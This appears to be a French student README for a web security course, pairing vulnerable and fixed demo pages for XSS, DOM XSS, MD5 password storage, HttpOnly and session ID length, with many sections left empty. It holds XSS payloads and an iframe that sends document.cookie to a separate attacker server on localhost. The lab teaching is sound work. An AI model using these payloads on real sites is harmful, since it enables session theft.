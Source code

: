 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
<br>
## XSS Rule 0
Cette règle déconseille d’utiliser des données qui peuvent être modifiées dans des balises pouvant exécuter du code.
Le programme vulnérable contient une balise script qui récupère la valeur associée à un paramètre. Avec cette valeur, il est possible de modifier la syntaxe du script pour exécuter un autre code.
**Attaque :**<br>
Si on modifie la valeur du paramètre name dans l’URL il est possible d’exécuter du code si la balise php est contenue dans une balise script.
Par exemple, si on remplace la valeur du paramètre name par alert(document.cookie) cela va ouvrir une boîte d’alerte et afficher le cookie.
http://localhost/was-grp11/xss_0/atk_xss_0.php?name=alert(document.cookie)<br>
**Defense :**<br/>
Pour éviter cela, si on doit ajouter des données “untrusted” alors il est nécessaire de ne pas utiliser des balises pouvant exécuter du code comme les balises script. 
C’est pour cela que dans la défense nous avons mis la balise php en dehors de la balise script. Le programme de défense n’exécute plus le code mis dans le paramètre name l’URL http://localhost/was-grp11/xss_0/def_xss_0.php?name=alert(document.cookie) <br>
<br>
## XSS Rule 1 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 2 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 3 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 4 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 5 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 6 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 7 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 8 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
http://localhost:8080/dom_xss_1/def_dom_xss_1.html?button=<script>alert(document.cookie)</script><br/>
<br/>
## SQL Injection <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `sudo mysql < init_db_password.sql`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:8080/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`$salt = bin2hex(openssl_random_pseudo_bytes(22));`<br/>
`$hash = crypt($_GET['password'], "$2a$12$".$salt);`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
http://localhost:8080/password/def_password.php?password=admin123<br/>
<br/>
## Session HttpOnly
Il faut lancer un serveur sur le port de votre choix (8080) dans le dossier *was-grp11/* et un autre sur le port 8089 (vous pouvez en choisir un autre mais il faut modifier le fichier vulnérable) dans le dossier *bad_session/*.<br/>
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>`<br/>
http://localhost:8080/session/vulnerable_session_httponly.php <br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
http://localhost:8080/session/def_session_httponly.php <br/>
![image](https://user-images.githubusercontent.com/54988405/137313105-bded2987-aeda-411d-84d9-6041ad80afa8.png)
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
## XML External Entity <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Session Max-Age <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
